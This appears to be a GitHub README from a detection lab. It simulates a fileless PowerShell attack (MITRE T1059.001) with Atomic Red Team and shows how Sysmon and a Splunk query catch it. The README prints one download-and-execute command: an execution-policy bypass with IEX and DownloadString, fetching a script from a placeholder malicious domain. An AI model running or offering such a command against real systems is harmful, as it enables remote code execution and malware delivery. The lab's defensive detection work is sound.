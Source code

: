 # T1059.001 – PowerShell Execution (Atomic Red Team)

**MITRE Technique**: [T1059.001 – Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)

This attack simulates malicious PowerShell execution using Atomic Red Team on a domain-joined Windows 10 machine. The purpose is to test endpoint visibility using Sysmon and log detection with Splunk.

---

## 🌟 Description

We use an Atomic Red Team payload to simulate a fileless PowerShell attack that downloads and runs a script remotely. This simulates common adversary behavior seen in malware, ransomware loaders, and APTs.

### Atomic Command Used:

```powershell
powershell.exe -nop -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('http://malicious[.]domain/script.ps1')"
```

This payload:

* Bypasses PowerShell execution policies
* Uses `IEX` (Invoke-Expression) to run code from memory
* Pulls down remote scripts using `Net.WebClient`

---

## 🔍 Detection in Splunk

### Tools Involved:

* Sysmon installed on Windows 10
* Splunk Universal Forwarder running on the same host
* Splunk Enterprise server receiving and indexing logs
* Atomic Red Team running directly on the Windows target

### Detection Method:

* **Sysmon Event ID 1** logs all process creations, including full PowerShell command lines
* Splunk ingests these logs under sourcetype `WinEventLog:Microsoft-Windows-Sysmon/Operational`

### Splunk Detection Query:

```splunk
index=endpoint sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search CommandLine="*powershell*"
| table _time, Computer, User, CommandLine
```

### What to Look For:

* Use of `-nop`, `-exec bypass`
* `IEX`, `Net.WebClient`, or `DownloadString`
* Long base64 or obfuscated strings

---

## ✅ Result

* The attack was logged by Sysmon and successfully forwarded to Splunk.
* Analysts can see full command line arguments in Splunk's search.
* The query clearly shows the suspicious PowerShell activity.

---

## 📸 Screenshots

### 1. PowerShell attack launched from ART:

![PowerShell Attack](./screenshots/T1059.001%20attack.PNG)

### 2. Splunk confirms detection:

![Detection Confirmed](./screenshots/shows%20that%20T1059.001%20can%20spot%20this%20kind%20of%20attack.PNG)

### 3. Manual search for PowerShell:

![Search PowerShell](./screenshots/we%20can%20search%20powershell%20as%20well%20to%20see.PNG)

### 4. Explanation of what the command does:

![Command Explained](./screenshots/what%20the%20command%20does.PNG)

### 5. What to look for in command line activity:

![Indicators](./screenshots/what%20to%20look%20for%20in%20powershell.PNG)
